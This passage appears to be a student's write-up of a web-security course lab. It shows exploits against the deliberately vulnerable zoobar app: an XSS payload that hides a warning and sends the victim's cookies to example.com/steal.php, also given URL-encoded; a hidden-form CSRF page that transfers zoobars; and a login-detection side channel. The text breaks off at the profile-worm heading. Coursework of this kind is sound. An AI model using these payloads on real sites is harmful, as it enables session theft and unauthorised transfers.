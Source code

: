 ##Browser security

###Exercise 1: Cookie Theft

The payload for the exercise consists from several parts:

    <script>
    document.addEventListener("DOMContentLoaded", theDomHasLoaded, false); //Wait that DOM has loaded in the page so we modify the warning text message class
    function theDomHasLoaded(e) { 
    document.getElementsByClassName("warning")[0].style.visibility = 'hidden'; // this hides the red warning message from the page
    } 
    new Image().src = 'http://example.com/steal.php?cookies=' + encodeURIComponent(document.cookie); //this is the payload to steal the victims cookie
    </script>

Finally we URL encode the whole payload and include it as part of the URL. The payload also requires that we include ""> and </ in the beginning and the end so that the exploit works properly.

    ""><script>document.addEventListener("DOMContentLoaded", theDomHasLoaded, false);function theDomHasLoaded(e) { document.getElementsByClassName("warning")[0].style.visibility = 'hidden';} new Image().src = 'http://example.com/steal.php?cookies=' + encodeURIComponent(document.cookie);</script></
    
localhost:8080/zoobar/index.cgi/users?user=admin%22%22%3e%3c%73%63%72%69%70%74%3e%64%6f%63%75%6d%65%6e%74%2e%61%64%64%45%76%65%6e%74%4c%69%73%74%65%6e%65%72%28%22%44%4f%4d%43%6f%6e%74%65%6e%74%4c%6f%61%64%65%64%22%2c%20%74%68%65%44%6f%6d%48%61%73%4c%6f%61%64%65%64%2c%20%66%61%6c%73%65%29%3b%66%75%6e%63%74%69%6f%6e%20%74%68%65%44%6f%6d%48%61%73%4c%6f%61%64%65%64%28%65%29%20%7b%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%43%6c%61%73%73%4e%61%6d%65%28%22%77%61%72%6e%69%6e%67%22%29%5b%30%5d%2e%73%74%79%6c%65%2e%76%69%73%69%62%69%6c%69%74%79%20%3d%20%27%68%69%64%64%65%6e%27%3b%7d%20%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%20%3d%20%27%68%74%74%70%3a%2f%2f%65%78%61%6d%70%6c%65%2e%63%6f%6d%2f%73%74%65%61%6c%2e%70%68%70%3f%63%6f%6f%6b%69%65%73%3d%27%20%2b%20%65%6e%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3c%2f%73%63%72%69%70%74%3e%3c%2f

###Exercise 2: Cross-Site Request Forgery

Below is provided the HTML and JavaScript code for the CSRF attack that will transfer 10 zoobars from the victim to the user 'attacker' and redirect the victim to other site.

    <html>
    <body>
        <form name="csrf" action="http://localhost:8080/zoobar/index.cgi/transfer" method="POST" target="iframe">
            <input type="hidden" name="zoobars" value="10" />
            <input type="hidden" name="recipient" value="attacker" />
        </form>
        <iframe style="display:none" id="iframe" name="iframe" frameborder="0"></iframe>
        <script> 
            document.getElementById("iframe").onload = function() {
                window.location.href = "http://css.csail.mit.edu/6.858/2014/";
            }
            document.forms[0].submit();
        </script>
    </body>
    </html>

###Exercise 3: Side Channels and Phishing

In this exercise we can retrieve the information from the zoobarjs file to see if the user is logged in or not. If user is logged in the file will include information about how many zoobars the user has. We can use this information in conjunction with JavaScript to check if the user, who visits the attackers site is logged in, since we can check if the file returns the amount of zoobars.

    <script src="http://localhost:8080/zoobar/index.cgi/zoobarjs"></script>
    <script> 
    //if user is logged in transfer users zoobar to the attackers account
        var zoobars = myZoobars || true;
        if (zoobars) {
        location.href = "answer-2.html"; //launch the CSRF attack if user is logged in
        }
    </script>

The answer-2.html file must be located in the same folder as the answer-3.html file so that the CSRF attack works as expected.

###Exercise 4: Profile Worm
